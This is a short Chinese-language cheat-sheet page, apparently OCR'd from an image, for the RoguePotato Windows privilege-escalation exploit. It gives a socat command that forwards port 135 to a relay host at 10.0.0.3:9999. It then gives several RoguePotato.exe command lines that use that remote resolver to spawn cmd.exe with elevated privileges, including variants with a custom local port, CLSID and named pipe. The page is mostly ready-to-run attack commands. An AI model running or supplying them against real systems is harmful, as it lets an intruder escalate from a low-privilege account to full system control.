 	Rogue Potato
	https://github.com/antonioCoco/RoguePotato
	要在远程机器上运行端口转发，必须使用端口 135 作为源端口
	socat tcp-listen:135,reuseaddr,fork tcp:10.0.0.3:9999

	在远程计算机上运行 RogueOxidResolver.exe
	如果您有防火墙限制，请使用此选项
	RoguePotato.exe -r 10.0.0.3 -e "C:\windows\system32\cmd.exe"

	RoguePotato 与 RogueOxidResolver 在本地9999端口运行
	RoguePotato.exe -r 10.0.0.3 -e "C:\windows\system32\cmd.exe" -l 9999

	以特定的 clsid 和自定义管道执行
	RoguePotato.exe -r 10.0.0.3 -e "C:\windows\system32\cmd.exe" -l 9999 -c "{6d8ff8e1-730d-11d4-bf42-00b0d0118b56}" -p splintercode